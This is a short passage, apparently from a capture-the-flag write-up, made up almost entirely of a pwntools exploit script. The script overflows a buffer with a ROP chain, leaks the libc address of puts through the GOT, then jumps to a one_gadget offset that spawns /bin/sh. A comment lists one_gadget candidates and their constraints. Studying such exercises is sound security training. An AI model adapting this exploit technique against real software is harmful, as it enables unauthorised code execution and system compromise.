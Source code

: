 ```bash
    gdb.attach(p)
    pause()

rdi=0x0000000000401363
ret=0x000000000040101a
rsi=0x0000000000401361
bss=0x404000+0x500
levae=0x4011FF

puts_p=0x00000000004007C0
leak('puts_p',puts_p)
puts_g=elf.got['puts']
leak('puts_g',puts_g)

payload1=b'\x00'*0x30+p64(bss-0x8)+p64(rdi)+p64(puts_g)+p64(puts_p)+p64(levae)
payload1=payload1.ljust(0x950,b'\x00')
sl(payload1)

ru('\n')
leak=u64(r(6)+b'\x00'*2)-libc.symbols['puts']
p.sendline(b'\x00'*0x30+p64(1)+p64(leak+0xe6c81))
itr()
'''
onegadget
0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
'''
```

[![](assets/1700528976-4e8e25780f0f7db1a0f3b2e76a6c416f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231119164349-c25367fe-86b7-1.png)
